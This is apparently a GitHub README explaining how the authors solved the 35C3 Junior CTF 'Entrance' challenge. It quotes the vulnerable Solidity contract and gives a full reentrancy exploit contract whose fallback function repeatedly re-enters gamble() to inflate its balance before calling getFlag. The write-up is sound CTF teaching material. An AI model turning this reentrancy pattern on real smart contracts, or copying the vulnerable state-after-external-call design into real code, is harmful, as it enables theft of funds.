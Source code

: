 # ctf-Entrance

Link to challenge: https://junior.35c3ctf.ccc.ac/challenges/ > Of Course >
Entrance.

### Introduction

This repository is the solution to the Junior 35C3CTF Entrance, a Solidity
reentrancy attack. The expl0it is a simple recursion based on the
`msg.sender.call` statement contained in the vulnerable contract.

### The Attack

Right from the get go, when looking at the contract code, one can see that
there is a `getFlag` method in the vulnerable contract. To call it, a player
needs a balance of >= 300.

```
  function getFlag(string memory _server, string memory _port) public {
    require (balances[msg.sender] > 300, "flag");
    emit EntranceFlag(_server, _port);
  }
```

An event is emitted with a `server` and `port` string. Our initial assumption
was that when the event is triggered by someone on the ropsten contract, a
server from the CTF team is listening for these events and will send back the
flag to a listening server the player has to setup.

But first, let's enter the game. To do that a player needs to call a method
called `enter(uint256 _pin)` on the the entrance.sol contract. A pin is needed
and wasn't specified in any of the hints. It's however easy to find in the data
of the [contract creation
transaction](https://ropsten.etherscan.io/address/0x1898Ed72826BEfa2D549004C57F048A95ae0B982#code).

```
  modifier legit(uint256 _pin) {
    if (_pin == pin, "bye") _;
  }

  function enter(uint256 _pin) public legit(_pin) {
    balances[msg.sender] = 10;
    has_played[msg.sender] = false;
  }
```

As we can call `getFlag` only with a balance of 300, we have to gamble with a
function called `gamble()`. Unfortunately, this function only adds 10 to the
player's balance and then doesn't allow the player to play again as
`has_played` is then set to `true`.


```
  modifier onlyNewPlayer {
    require(has_played[msg.sender] == false, "hello");
    _;
  }

  function gamble() public onlyNewPlayer {
    require (balances[msg.sender] >= 10, "gamble");
    if ((block.number).mod(7) == 0) {
      balances[msg.sender] = balances[msg.sender].add(10);
      balance = balances[msg.sender];
      // Tell the sender he won!
      msg.sender.call("You won!");
      has_played[msg.sender] = true;
    } else {
      balances[msg.sender] = balances[msg.sender].sub(10);
    }
  }

```

We can also see that one can only successfully gamble when the `block.number`
is divisible by 7, as otherwise funds are subtracted from the balance of the
player.

With this in mind we were quite confused at first what to do and re-read the
description of the challenge again:

```
Can you enter? Again?
```

So the question is: Can we enter `gamble` again. Turns out we can.  In fact, if
the `msg.sender.call` function doesn't call a valid function, [it defaults to a
so called
fallback-function](https://ethereum.stackexchange.com/questions/42521/what-does-msg-sender-call-do-in-solidity/42585#42585)
that can be defined in a calling contract.

With knowing this, we made the following plan:

- Create a smart contract that has a function `enter` that calls `entrance.enter`
with the given pin `0xbc4f77`
- Check if the current `block.number` is divisible by 7 and if so call `gamble`
- Define a fallback function in our exploit contract that checks if the balance
is less than 300 and if so, call `gamble` again.

After a lot of back and forth and some quite fun but also frustrating hours, we
arrived at the following code:

```
pragma solidity >=0.4.21 <0.6.0;

import "./entrance.sol";
import "./SafeMath.sol";

contract EnterAgain {
    using SafeMath for *;

    uint256 counter = 0;
    address a;

    constructor(address _a) {
        a = _a;
    }

    function enter() {
        uint b = block.number;
        require((b).mod(7) == 0, "wrong block number");
        Entrance entrance = Entrance(a);
        entrance.enter(0xbc4f77);
        entrance.gamble();
        entrance.getFlag("34.254.178.181", "8080");
    }

    function() {
        Entrance entrance = Entrance(a);
        if(entrance.balances(this) <= 300) {
            entrance.gamble();
        }
    }
}
```

In the constructor, we set the address `a` of the vulnerable contract.  In
`enter`, we call `block.number` and check if it's divisible by 7. We then
instanciate the vulnerable contract, call `enter` and `gamble`. We run through
the gambling game by continously falling back to our fallback-function
`function()` to ultimately stop, and call `getFlag`. After the transaction is
confirmed, our netcat server was answered with the flag.


### Tips

- Modify all require statements with a second argument string to know where the
  contract reverts. Additionally, change all `if`s to require with a second
  argument string so that you can debug them better.
- Always debug locally with Ganache and Truffle. It's so much easier than
  deploying live. There is additionally `truffle debug <tx id>` which can be
  very helpful for debugging a transaction step by step.
- If stuck, remove checks from the vulnerable contract to get your script
  passing.  It will really accelerate your workflow.

